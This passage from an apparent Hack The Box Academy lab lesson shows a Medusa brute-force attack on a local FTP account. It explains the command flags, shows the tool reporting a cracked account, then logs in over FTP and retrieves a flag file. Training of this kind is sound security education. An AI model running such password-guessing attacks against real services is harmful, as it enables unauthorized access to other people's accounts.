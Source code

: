 GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
</code></pre>
<p>The key differences here are:</p>
<ul>
<li>
<code>-h 127.0.0.1</code>: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.</li>
<li>
<code>-u ftpuser</code>: Specifies the username <code>ftpuser</code>.</li>
<li>
<code>-M ftp</code>: Selects the FTP module within Medusa.</li>
<li>
<code>-t 5</code>: Increases the number of parallel login attempts to 5.</li>
</ul>
<h3>Retrieving The Flag</h3>
<p>Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the <code>get</code> command to download the <code>flag.txt</code> file, which may contain sensitive information.:</p>
<pre><code class="language-shell-session">[!bash!]$ ftp ftp://ftpuser:&lt;FTPUSER_PASSWORD&gt;@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp&gt; ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp&gt; get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp&gt; exit
221 Goodbye.
</code></pre>
<p>Then read the file to get the flag:</p>
<pre><code class="language-shell-session">[!bash!]$ cat flag.txt
HTB{...}
</code></pre>
<p>The ease with which such attacks can be executed underscores the importance of employing strong, unique passwords.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>